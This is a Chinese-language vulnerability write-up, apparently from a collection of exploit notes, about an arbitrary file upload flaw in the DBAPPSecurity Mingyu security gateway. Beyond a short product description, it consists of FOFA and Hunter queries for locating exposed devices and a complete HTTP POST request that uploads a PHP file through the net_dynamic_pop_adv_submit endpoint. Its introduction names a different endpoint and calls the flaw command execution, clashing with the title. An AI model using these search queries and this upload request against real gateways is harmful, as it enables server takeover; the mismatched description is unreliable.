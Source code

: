 # 安恒明御安全网关net_dynamic_pop_adv_submit存在任意文件上传漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关aaa_portal_auth_wchat_submit存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ fofa`title="明御安全网关"`
+ 特征

![1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3.png](./img/HWXRZk-Pt7bBvocS/1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3-137994.png)

# 四、漏洞复现
```plain
POST /webui/?g=net_dynamic_pop_adv_submit HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 196
Content-Type: multipart/form-data; boundary=qqobiandqgawlxodfiisporjwravxtvd

--qqobiandqgawlxodfiisporjwravxtvd
Content-Disposition: form-data; name="filename"; filename="9B9Ccd.php"
Content-Type: text/plain

2ZqGNnsjzzU2GBBPyd8AIA7QlDq
--qqobiandqgawlxodfiisporjwravxtvd--
```
